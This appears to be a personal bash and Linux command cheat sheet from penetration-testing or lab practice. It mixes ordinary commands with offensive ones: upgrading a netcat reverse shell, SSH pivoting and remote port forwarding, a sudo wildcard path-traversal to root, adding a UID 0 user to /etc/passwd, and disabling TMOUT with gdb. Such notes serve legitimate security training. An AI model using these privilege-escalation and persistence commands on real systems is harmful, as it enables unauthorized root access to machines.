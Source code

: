 __tags: bash linux tech

## ps, only list certain cats

```bash
ps -e -o user,pid,command
```

## ps, forest view to see process children

```bash
ps -ef --forest

```


## login ssh with custom id_rsa

```
ssh -i id_rsa dexter@10.10.10.216
```

## Easy Pretty bash shell after you connect with nc (yes, this still works well!!!)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

- use `stty sane` to revert!!!!
- you can also just use `python3 -c 'import pty;pty.spawn("/bin/bash")'` and this sometimes works for a half complete but prettier shell (better than sh)



## Port Forward and Double Hop with SSH

```
ssh -L 5555:10.10.10.8:3389 -J dog@192.168.1.12 cat@192.168.122.36

```

## Expose Ports using remote forwarding
```
ssh -N -f -R 3000:localhost:3000 -R 8001:localhost:8001 root@10.10.14.40 -p 2222
```

##  **Sudo command** as a specific user (run after a sudo -l)

```
sudo -u onuma tar
```

## **Sudo Commnd** file description

```
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*


## This means I can run the "nice" command for everything in the "/notes/" dir, however since we use a "*" this can include ".." thus to get root:

sudo /bin/nice /notes/../bin/bash
```

## Add user to passwd file

```
openssl passwd -crypt -salt salty passwordy


    openssl passwd -crypt -salt xx password

prints xxj31ZMTZzkVA. --> Put this in column two of passwd

    openssl passwd -1 -salt xxxxxxxx password

prints $1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a. --> Put this in column two of passwd

    openssl passwd -apr1 -salt xxxxxxxx password

prints $apr1$xxxxxxxx$dxHfLAsjHkDRmG83UXe8K0. 
```

## Add user to passwd file (easier way)

```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```


## Enumerate for "unique" bins:

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```


## Convert Windows UTF16 files to Linux UTF8

```
echo "windows" | iconv UTF-16LE -t UTF-8

```

## Run less with WINPEAS colors (Bash colors)

```
less -R winpeas.txt
```

## Mount SMB Share to local fs

```
sudo mount -t cifs -o 'username="user", password="password"' //10.10.10.172/Users /mnt/folder
```

## Mount SMB Share for SMB 1.0

```
sudo mount -t cifs -o 'username="admin",password="$weetNess11#",vers=1.0' '//10.11.1.5/C$' /mnt/point/
```

## list kernel modules

```
lsmod
```

## Grep, look for text in files recursivly while ignoring certain file extensions!!!

```
fgrep -nr password --exclude=\*.js *
```

## Disable TMOUT Variable (auto logoff) in Bash if TMOUT is a READ-Only ENV Var

```bash
unset TMOUT > /dev/null 2>&1
if [ $? -ne 0 ]; then
  gdb <<EOF > /dev/null 2>&1
  attach $$
  call unbind_variable("TMOUT")
  detach
  quit
EOF
fi

```

## Bash Best Practice Template

```bash
#!/usr/bin/env bash

set -o errexit
set -o nounset
set -o pipefail
if [[ "${TRACE-0}" == "1" ]]; then
    set -o xtrace
fi

if [[ "${1-}" =~ ^-*h(elp)?$ ]]; then
    echo 'Usage: ./script.sh arg-one arg-two

This is an awesome bash script to make your life better.

'
    exit
fi

cd "$(dirname "$0")"

main() {
    echo do awesome stuff
}

main "$@"

```
